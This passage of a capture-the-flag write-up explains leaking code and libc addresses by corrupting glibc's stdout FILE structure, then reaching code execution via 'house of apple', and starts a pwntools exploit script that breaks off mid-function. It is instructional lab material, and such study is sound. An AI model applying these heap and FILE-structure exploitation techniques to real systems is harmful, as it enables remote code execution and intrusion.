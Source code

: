 With only four flips available, our options are severely limited. However, without access to the program's codebase, we must devise a strategy to manipulate the flips value. Fortunately, we can exploit the program's stdout to leak information about the codebase and the libc base. By altering `_flags` and `write_base` within `_IO_2_1_stdout_`, we can trigger a write operation between `write_base` and `write_ptr`.

Once the setup is complete, sending an invalid input can provoke the puts function, allowing us to leak the codebase and libc base. With this information, we can manipulate the flips value, granting us infinite flip chances and establishing an arbitrary address write primitive.

Utilizing this primitive, we can achieve Remote Code Execution (RCE) through various methods. In this exploit, I choose `house of apple`. Below is the full exploit script.

```python
# %%
from pwn import *

e = ELF("./flipma_patched")
libc = ELF("./libc-2.31.so")
ld = ELF("./ld-2.31.so")

context.binary = e
context.os = "linux"
context.arch = context.binary.arch
context.terminal = ["alacritty", "-e"]

local = False
if local:
    # context.log_level = "debug"
    p = process([e.path])
else:
    # p = remote("chall.lac.tf", 31165)
    p = remote("localhost",5000)


def dbgaddr(addr, PIE=False):  # PIE enabled
    if local:
        if PIE:
            text_base = int(
                os.popen("pmap {}| awk '{{print $1}}'".format(p.pid)).readlines()[1], 16
            )
            log.info(f"b *{hex(text_base + addr)}\n")
            gdb.attach(p, f"b *{hex(text_base + addr)}")
        else:
            gdb.attach(p, f"b *{hex(addr)}")


def dbg(func=""):
    if local:
        gdb.attach(p, func)


def main_arena():
    # from ptrlib
    ofs_stdin = libc.sym._IO_2_1_stdin_
    ofs_realloc_hook = libc.sym.__realloc_hook
    ofs_malloc_hook = libc.sym.__malloc_hook
    if ofs_realloc_hook is None or ofs_malloc_hook is None or ofs_stdin is None:
        return None

    if 0 < ofs_malloc_hook - ofs_stdin < 0x1000:
        # libc-2.33 or older
        if context.bits == 32:
            return ofs_malloc_hook + 0x18
        else:
```